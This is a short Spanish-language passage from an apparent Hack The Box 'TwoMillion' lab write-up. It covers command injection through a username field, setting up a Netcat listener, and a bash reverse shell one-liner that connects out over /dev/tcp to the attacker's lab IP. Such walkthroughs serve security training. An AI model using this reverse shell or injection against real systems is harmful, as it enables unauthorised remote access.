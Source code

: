 ## Exploitation

Intentamos **inyectar código** desde el campo de username y notamos que funciona, por lo que podriamos optar por ejecutar una **reverse shell** para conectarnos desde nuestra máquina.

![TwoMillion yw4rf](../../../assets/HTB/TwoMillion/tm-34.png)

Primero nos ponemos en escucha con **Netcat** al puerto que utilizaremos en la **reverse shell**

![TwoMillion yw4rf](../../../assets/HTB/TwoMillion/tm-35.png)

Utilizare esta **reverse shell**: `bash -c 'bash -i >&/dev/tcp/10.10.14.165/1717 0>&1';` 
